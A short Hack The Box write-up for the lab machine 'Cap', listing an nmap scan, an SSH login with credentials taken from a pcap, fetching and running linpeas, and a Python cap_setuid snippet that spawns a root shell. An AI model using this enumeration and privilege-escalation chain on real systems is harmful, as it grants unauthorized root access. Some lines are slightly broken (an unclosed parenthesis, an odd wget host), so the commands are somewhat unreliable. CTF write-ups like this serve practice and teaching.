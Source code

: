 # Hack The Box

<details>
  <summary>
    
   ### CAP
  </summary>
`nmap -sC -sV 10.10.10.245`
```
21/tcp    open     ftp         vsftpd 3.0.3
22/tcp    open     ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp    open     http        gunicorn
```
From the website we got a idor vuln and from the pcap file we got the user name and password

`ssh nathan@10.10.10.245`

`python3 -m http.server 8080`
`wget http://10.10.10.245:8080/linpeas.sh`

`./linpeas.sh`
`/setuid`

```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```
```
import os
os.setuid(0)
os.system("/bin/bash"

</details>
